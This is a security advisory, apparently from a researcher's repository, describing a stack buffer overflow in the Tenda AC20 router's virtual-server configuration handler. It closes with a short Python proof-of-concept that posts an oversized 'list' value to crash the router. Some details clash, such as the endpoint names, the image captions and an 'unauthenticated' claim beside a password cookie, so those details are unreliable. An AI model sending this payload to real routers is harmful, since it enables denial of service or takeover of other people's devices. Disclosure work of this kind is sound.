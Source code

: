 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) formSetVirtualSer

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/formSetVirtualSer` endpoint. The flaw resides in the `save_virtualser_data` function, which processes the `list` input with unsafe string formatting operations lacking bounds checking, enabling stack memory corruption.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/formSetVirtualSer`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `formSetVirtualSer` function and its dependent `save_virtualser_data` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `formSetVirtualSer` and directly passed to `save_virtualser_data` for virtual server rule processing, with no initial input validation.

2.  **Rule Parsing**: `save_virtualser_data` checks if the length of `list` is at least 5 bytes, then splits the input by a delimiter (controlled by the third parameter `a3`, value 126) using `strchr`. Each split segment is treated as a virtual server rule entry.

3.  **Data Extraction**: For each rule entry, `sscanf` is used to parse four fields (via format string `"%[^,]%*c%[^,]%*c%[^,]%*c%s"`), extracting values into buffers `v12`, `v13`, `v14`, and `v15`.

4.  **Unsafe Formatting**: Critical unsafe operations occur in `save_virtualser_data` when constructing the configuration string:

*   `sprintf(v11, "0;%s;%s;%s;%s;1", (const char *)v14, (const char *)v13, (const char *)v12, (const char *)v15)`: This formats the parsed fields into `v11`, a fixed-size 256-byte stack buffer.

*   No bounds checking is performed on the length of the parsed fields (`v12` to `v15`), which are directly derived from the user-controlled `list` parameter.

If any of the parsed fields are sufficiently long, the `sprintf` call will overflow the 256-byte `v11` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## PoC: Python Exploit Script

```
from pwn import *
import requests
url = "http://192.168.xxx.xxx/goform/SetVirtualServerCfg"
cookie = {"Cookie":"password=rfl1qw"}
data = {"list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
This script sends a crafted `list` parameter containing an overly long fourth field. When processed by `save_virtualser_data`, the `sprintf` call will overflow the `v11` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
